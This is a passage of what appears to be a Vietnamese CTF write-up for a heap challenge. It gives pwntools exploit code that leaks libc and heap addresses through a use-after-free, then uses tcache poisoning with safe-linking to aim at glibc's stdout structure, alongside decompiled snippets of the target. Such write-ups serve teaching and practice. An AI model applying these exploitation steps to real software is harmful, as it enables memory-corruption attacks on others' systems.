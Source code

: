 ```python
def edit(idx,data):
    p.sendlineafter(b'> ',b'4')
    p.sendlineafter(b'index: ',f'{idx}'.encode())
    p.sendlineafter(b'write something in: ',data)

for i in range(9): add(i,0xf8)
for i in range(8): delete(i)
offset = 0x21ace0
show(7)
libc.address = u64(p.recv(6).ljust(8,b'\x00')) - offset
log.success(f'libc: {hex(libc.address)}')
show(0)
heap_base = u64(p.recv(5).ljust(8,b'\x00')) * 0x1000
log.success(f'heap_base {hex(heap_base)}')

```
- tiếp theo ta sẽ dùng ```tcache poisioining``` để giúp ta ghi vào được ```stdout``` , ở đây vì hàm edit nó check 

```C
  if ( *((_BYTE *)a1 + 16) == 1 )
  {
    puts("that won't work...");
    exit(0);
  }
```

và lúc delete nó gán cho đoạn cho là 1 nên ta phải chuyển nó thành 1 chunk chưa được free bằng cách tận dụng UAF , sau đó ta mới edit fd của nó được 

```C
__int64 __fastcall sub_147A(__int64 a1)
{
  __int64 result; // rax

  free(*(void **)a1);
  result = a1;
  *(_BYTE *)(a1 + 16) = 1;
  return result;
}
```

- thứ tự trong tcache lúc này

chunk7->chunk6->chunk5 ...

vậy khi malloc lại nó sẽ lấy chunk 7 ra , và lúc này 2 con trỏ nó sẽ giống nhau , ta sẽ delete lại chunk 7 và edit fd của chunk vừa mới idx , fd của 2 thằng này sẽ giống nhau 

```python
target = libc.sym._IO_2_1_stdout_
b = heap_base + 0x8a0
to_write = target ^ (b>>12)

input()
add(10,0xf8)
delete(6)
edit(10,p64(to_write))
```
